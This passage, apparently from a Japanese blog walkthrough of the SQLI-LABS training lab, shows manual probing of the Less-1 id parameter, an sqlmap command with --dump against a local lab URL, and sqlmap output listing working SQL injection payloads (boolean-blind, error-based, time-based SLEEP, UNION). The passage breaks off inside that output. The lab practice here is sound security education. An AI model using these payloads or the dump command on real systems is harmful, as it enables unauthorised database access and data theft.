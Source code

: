 ### データベース・テーブル初期化

「`http://(Webサーバ)/sqli-labs/`」にアクセスします。  

[f:id:motikan2010:20170611100736p:plain:w600]  

[`Setup/reset Database for labs`]にアクセスすると使用するデータベースの初期化行われます。  
  
[f:id:motikan2010:20170611101218j:plain:w600]
  
これで「SQLI-LABS」が使えるようになります。

## 動作確認

　一番簡単であろう、「Less-1 (GET - Error based - Single quotes - String)」からさわってみます。  

[f:id:motikan2010:20170611141146j:plain:w600]  

「idパラメータに数字を入力」と書かれた黒い画面が表示されます。
[f:id:motikan2010:20170611140728j:plain:w600]  

指示通りに「`?id=1`」を入力します。  
[f:id:motikan2010:20170611142107j:plain:w600]  

ユーザ情報が表示されました。いかにもidパラメータにSQLiがありそう。  
次に「`'`」を入力します。  DBエラーになりました。
[f:id:motikan2010:20170611142619j:plain:w600]  

「`''`」を入力。  
今度はエラーにならないことから、やはり「id」パラメータにSQLiの疑いがあります。
[f:id:motikan2010:20170611142901j:plain:w600]  


　手動でテーブル等を取得するのも手間なので、ここからは自動でSQLiの検出とデータ取得を自動的に行ってくれる「<b>sqlmap</b>」を使っていきます。  
難易度が上がるごとに、手動だと検出さえできないものもあるかと思いますので、早速使用していきます。  
[https://github.com/sqlmapproject/sqlmap:embed:cite]  
  
　ツールの詳しい使い方や起動オプションについてはこちらを参照。  
[https://github.com/sqlmapproject/sqlmap/wiki/Usage:title] 
 
### Less-1 (GET - Error based - Single quotes - String)

　「---」の間に表示されているのが、検出されたSQLiの種類を表している。  
テーブルの内容も取得できていることが分かる。改めてSQLiコワイ。

<div class="md-code" style="width:100%">
```
$ python2.6 sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --dump
```
</div>

<div class="md-code" style="width:100%">
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4906=4906 AND 'gcKD'='gcKD

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 9809 FROM(SELECT COUNT(*),CONCAT(0x71786b7a71,(SELECT (ELT(9809=9809,1))),0x7162767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'uTqI'='uTqI

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1' AND SLEEP(5) AND 'aTCG'='aTCG

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
```